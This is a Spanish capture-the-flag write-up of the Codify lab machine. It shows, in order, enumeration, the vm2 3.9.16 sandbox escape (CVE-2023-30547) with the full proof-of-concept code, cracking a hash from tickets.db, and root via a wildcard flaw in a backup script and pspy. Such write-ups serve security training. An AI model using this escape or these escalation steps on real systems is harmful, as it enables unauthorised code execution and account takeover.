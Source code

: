 ##code-review ##password-brute-force ##hashcat ##javascript-library ##mysql ##nodejs ##pspy ##vm2

![](../../../Imágenes/Codify.png)

Codify es una máquina que aloja un sitio web para revisar código Node.js en un servidor web. Podemos conseguir un punto de apoyo en el sistema objetivo mediante la explotación de una vulnerabilidad de una librería JavaScript que el sitio utiliza para la revisión de código. Una vez dentro debemos movernos lateralmente hacia otro usuario gracias al hallazgo de un hash ubicado dentro de un fichero en el sistema y realizando su desencriptado. Finalmente, debemos escalar privilegios realizando fuerza bruta sobre un script encontrado en el sistema o, también, usando la herramienta PSPY que nos permitirá capturar la contraseña del usuario root.

## **Enumeración**

#### Nmap

El escaneo de puertos nos arroja la existencia de servicios como **SSH**, **HTTP** y un servicio **HTTP** alojado en el puerto 3000.

![](../../../Imágenes/Selection_001-1.png)

![](../../../Imágenes/Selection_002-1.png)

#### HTTP 3000/TCP

El puerto 3000 nos aporta mucha curiosidad, por lo que nos dirigimos hacia él mediante el navegador. El sitio nos muestra un editor de código para testear código escrito en lenguaje Node.js:

![](../../../Imágenes/Pasted-image-20240404132135.png)

Si nos dirigimos a la sección «About us» podemos obtener más información sobre el sitio y entender mejor su funcionamiento. Asimismo podemos ver que el editor utiliza una librería de **JavaScript** llamada **vm2**.

![](../../../Imágenes/Pasted-image-20240404133457.png)

Si clicamos en el enlace, podemos comprobar que se está usando la versión **3.9.16**. Realizando una búsqueda por los motores de búsqueda podemos comprobar que existe una vulnerabilidad para esta versión registrada como **[CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)**:

![](../../../Imágenes/image%201.png)

Existe un **[proof of concept](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m)** de esta vulnerabilidad que nos sugiere el uso del siguiente código, el cual nos permite la ejecución de código arbitrario en el sistema objetivo:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo pwned');
}
`

console.log(vm.run(code));
```

Si volvemos al sitio web y probamos el código podemos comprobar que se muestra por pantalla la palabra pwned, por lo tanto, la ejecución de comandos se está realizando correctamente.

![](../../../Imágenes/Pasted-image-20240404133530.png)

## **Usuario svc**

Ahora es hora de introducir un payload para obtener una reverse shell:

![](../../../Imágenes/Selection_004-1.png)

Una vez obtenido la shell en el sistema objetivo y estabilizarla, nos encontramos con que somos el usuario svc y que existe un usuario llamado joshua el cual no podemos acceder a su directorio dentro del Home.

![](../../../Imágenes/Selection_005-1.png)

## **Usuario joshua**

Después de realizar una enumeración del sistema nos encontramos que existe un archivo llamado **tickets.db** dentro de la carpeta **/var/www**. Este archivo parece contener el nombre de joshua (el cual no tenemos acceso) y lo que parece ser un hash.

![](../../../Imágenes/Selection_006-1-wpp1712234308114.png)

Así que nos dirigimos a copiar el hash y tratar de desencriptarlo en nuestro host de ataque mediante el uso de **Hashcat**:

![](../../../Imágenes/Selection_007-1-wpp1712234291287.png)

![](../../../Imágenes/Selection_008-1-wpp1712299328674.png)

Por suerte, logramos desencriptar la contraseña, cambiar de usuario hacia joshua y leer la bandera user.txt.

![](../../../Imágenes/Selection_009-1-wpp1712234194943.png)

## **Escalada de privilegios**

Rápidamente, comprobamos comandos que el usuario puede ejecutar con permisos root y nos entramos con que puede ejecutar un script que aparentemente realiza una copia de seguridad de la base de datos **MYSQL**.

![](../../../Imágenes/Selection_011-1.png)

Realizando la revisión de código de este script nos encontramos con que en primer lugar se hace una comprobación de la contraseña ubicada en el directorio de root con la contraseña que introduzcamos al ejecutar el script y, a continuación, si la contraseña introducida es válida se procede a realizar la copia de seguridad usando la contraseña root.

![](../../../Imágenes/Selection_012-1.png)

Si iniciamos el script y probamos cualquier contraseña, nos devuelve un mensaje de fallo de contraseña y se paraliza la ejecución del script. Pero, si usamos el comodín «*» la lógica del script da por buena la contraseña y sigue con su ejecución.

![](../../../Imágenes/Selection_013-1.png)

En este momento tenemos dos opciones:

1. Desarrollar un script para realizar fuerza bruta sobre la contraseña.
2. Utilizar **PSPY** para capturar la contraseña durante la ejecución del script.

Nosotros optamos por utilizar **PSPY**. Así que subimos el binario **PSPY64** en la máquina víctima y lo ejecutamos.

![](../../../Imágenes/Selection_016-1.png)

A continuación, ejecutamos el script introduciendo el comodín:

![](../../../Imágenes/Selection_017-1.png)

¡Y conseguimos la contraseña!

![](../../../Imágenes/Selection_018-1-wpp1712234137194.png)

Ahora, tratamos de usar la contraseña filtrada gracias a **PSPY** intentando cambiar hacia el usuario root, y finalmente, ¡conseguimos la bandera root.txt!

![](../../../Imágenes/Selection_019-1-wpp1712234073978.png)

![](../../../Imágenes/Selection_010-1%201.png)
